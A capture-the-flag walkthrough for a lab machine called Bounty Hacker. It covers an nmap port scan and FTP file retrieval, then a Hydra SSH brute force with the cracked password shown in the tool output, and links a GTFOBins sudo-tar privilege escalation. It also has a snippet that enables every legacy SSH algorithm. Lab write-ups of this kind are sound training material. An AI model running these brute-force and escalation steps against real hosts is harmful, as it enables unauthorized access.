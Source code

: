```yaml
---
title: Walkthrough - Bounty Hacker - Linux/Tar/PrivESC/Security
published: true
---
```


You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

![0xskar](/assets/cowboybebop01.jpg)

You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future! 

* * *

## Find open ports on the machine

- ``sudo nmap -Pn -sS -p- -T4 10.10.208.214 -vvv``

```shell

```

* * *

## Who wrote the task list? 

- connect to ftp and download ``locks.txt`` and ``tasks.txt``

* * *

## What service can you bruteforce with the text file found?

So I was having issues brute forcing the SSH with hydra due to a ``kex error : no match for method server host key algo: server [ssh-rsa,rsa-sha2-512,rsa-sha2-256,ecdsa-sha2-nistp256,ssh-ed25519], client [ssh-dss]`` The following code block will fix all login negotaiation errors.

```shell
{
echo -n 'Ciphers '
ssh -Q cipher | tr '\n' ',' | sed -e 's/,$//'; echo

echo -n 'MACs '
ssh -Q mac | tr '\n' ',' | sed -e 's/,$//'; echo

echo -n 'HostKeyAlgorithms '
ssh -Q key | tr '\n' ',' | sed -e 's/,$//'; echo

echo -n 'KexAlgorithms '
ssh -Q kex | tr '\n' ',' | sed -e 's/,$//'; echo

} >> ~/.ssh/config
```

We are now able to run ``hydra -l lin -P locks.txt 10.10.208.214 ssh -t 4`` and get our ssh password.

```shell
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-09 10:32:21
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.208.214:22/
[22][ssh] host: 10.10.208.214   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-07-09 10:32:30
```

* * *

## user.txt

```shell
lin@bountyhacker:~/Desktop$ ls -las
total 12
4 drwxr-xr-x  2 lin lin 4096 Jun  7  2020 .
4 drwxr-xr-x 19 lin lin 4096 Jun  7  2020 ..
4 -rw-rw-r--  1 lin lin   21 Jun  7  2020 user.txt
lin@bountyhacker:~/Desktop$ pwd
/home/lin/Desktop
lin@bountyhacker:~/Desktop$ cat user.txt 
```

* * *

## root.txt

```shell
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Sorry, try again.
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Easy PrivESC - [https://gtfobins.github.io/gtfobins/tar/#sudo](https://gtfobins.github.io/gtfobins/tar/#sudo)

* * * 








